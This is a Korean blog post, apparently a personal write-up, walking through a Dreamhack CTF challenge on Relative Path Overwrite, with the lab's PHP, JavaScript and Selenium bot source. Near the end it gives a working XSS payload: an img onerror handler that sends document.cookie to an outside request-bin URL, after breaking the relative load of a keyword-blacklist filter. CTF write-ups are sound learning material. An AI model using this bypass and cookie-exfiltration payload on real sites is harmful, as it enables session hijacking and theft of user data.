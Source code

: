 ```yaml
---
title: (35) Relative Path Overwrite 문제 풀이
date: 2024-02-12 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
또 그 페이지 입니다.
![](https://kyuyeop.github.io/assets/img/post/35/1.png)
일단 메인페이지 입니다. 코드는 특별한건 없습니다.
```php
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Relative-Path-Overwrite</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Relative-Path-Overwrite</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/?page=vuln&param=dreamhack">Vuln page</a></li>
            <li><a href="/?page=report">Report</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/><br/>
    <div class="container">
      <?php
          $page = $_GET['page'] ? $_GET['page'].'.php' : 'main.php';
          if (!strpos($page, "..") && !strpos($page, ":") && !strpos($page, "/"))
              include $page;
      ?>
    </div> 
</body>
</html>
```
![](https://kyuyeop.github.io/assets/img/post/35/2.png)
vuln페이지 입니다.
```php
<script src="filter.js"></script>
<pre id=param></pre>
<script>
    var param_elem = document.getElementById("param");
    var url = new URL(window.location.href);
    var param = url.searchParams.get("param");
    if (typeof filter !== 'undefined') {
        for (var i = 0; i < filter.length; i++) {
            if (param.toLowerCase().includes(filter[i])) {
                param = "nope !!";
                break;
            }
        }
    }

    param_elem.innerHTML = param;
</script>
```
위 코드에서 가져온 `filter.js`의 내용은 다음과 같습니다.
```javascript
var filter = ["script", "on", "frame", "object"];
```
![](https://kyuyeop.github.io/assets/img/post/35/3.png)
```php
<?php
if(isset($_POST['path'])){
    exec(escapeshellcmd("python3 /bot.py " . escapeshellarg(base64_encode($_POST['path']))) . " 2>/dev/null &", $output);
    echo($output[0]);
}
?>

<form method="POST" class="form-inline">
    <div class="form-group">
        <label class="sr-only" for="path">/</label>
        <div class="input-group">
            <div class="input-group-addon">http://127.0.0.1/</div>
            <input type="text" class="form-control" id="path" name="path" placeholder="/">
        </div>
    </div>
    <button type="submit" class="btn btn-primary">Report</button>
</form>
```
페이지의 구현 코드들은 위와 같고, 위 코드에서 나오는 `bot.py`은 다음과 같습니다.
```python
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import sys
import base64

if len(sys.argv) < 2:
    exit(-1)

if len(sys.argv[1]) == 0:
    exit(-1)

path = base64.b64decode(sys.argv[1]).decode('latin-1')

try:
    FLAG = open('/flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

def read_url(url, cookie={'name': 'name', 'value': 'value'}):
    cookie.update({'domain':'127.0.0.1'})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get('http://127.0.0.1/')
        driver.add_cookie(cookie)
        driver.get(url)

    except Exception as e:
        driver.quit()
        return False
    driver.quit()
    return True

def check_xss(path, cookie={'name': 'name', 'value': 'value'}):
    url = f'http://127.0.0.1/{path}'
    return read_url(url, cookie)

if not check_xss(path, {'name': 'flag', 'value': FLAG.strip()}):
    print('<script>alert("wrong??");history.go(-1);</script>')
else:
    print('<script>alert("good");history.go(-1);</script>')
```
사이트는 index.php에 page로 넘긴 파일을 렌더링하는 방식으로 작동합니다.  
flag는 `bot.py`에 있고, `report.php`에 입력한 내용이 인코딩되어 `bot.py`로 보내지고, `bot.py`에서 쿠키에 flag를 담아 입력 url로 접속하는 방식입니다.  
  
vuln 페이지에는 `filter.js`를 이용해 blacklist 목록을 불러옵니다. 만약 일치하는게 있다면 `nope`을 출력하고요.  
이를 우회하는건 이 문제의 이름인 Relative Path Overwrite을 이용해 가능합니다.  
  
해당 페이지에서 파일을 가져오는 방식은 상대경로를 이용합니다. 즉, 파일이 불러와질 경로를 바꿀 수 있다면 `filter.js`를 불러오지 못하게 할 수 있습니다.
```
index.php/?page=vuln&param=
```
위와 같은 경로로 접근하게 된다면 클라이언트에서는 `index.php`를 보고 있지만, 서버는 `index.php`를 폴더로 간주하여 `index.php/filter.js`를 불러오려고 하다가 실패할 겁니다. 이로써 필터링을 무력화하고 xss가 가능합니다.  
  
이전에 문제들은 memo 페이지가 있어서 거기에 저장하는 방식으로 문제를 풀었지만, 이번에는 저장하는 페이지가 없으므로 다른 사이트의 도움을 받도록 하겠습니다.  
바로 [드림핵 툴즈](https://tools.dreamhack.games/main)입니다. 이 중에 request bin을 이용하면 생성된 url로 들어오는 요청들을 확인할 수 있습니다.  
  
이 위치로 cookie를 보내도록 하면 되겠습니다.  
  
앞서 xss 필터링을 무력화 시켰습니다. xss 기법을 이용해 드림핵 툴즈에서 생성한 url에 접근하도록 만들어줍시다.
```
index.php/?page=vuln&param=<img src="" onerror="location='https://lzjhnje.request.dreamhack.games?'%2bdocument.cookie">
```
param값이 vuln페이지에 들어갈때 url decode가 되므로 `+`대신 `%2b`로 바꾸어 넣어줘야 합니다.  
script 태그는 이유는 정확히 모르겠으나 작동을 안하네요. 프론트엔드에서도 잘 보이는데 이상하네요. `<img>`를 이용하니 가능해서 일단 해결했습니다. 추가한게 실행한것보다 위에 있어서 실행이 안된게 아닌가 생각해봅니다.  
  
아무튼 이렇게 넣고 report를 누르면
![](https://kyuyeop.github.io/assets/img/post/35/4.png)
이렇게 flag가 도착해 있습니다.
{% endraw %}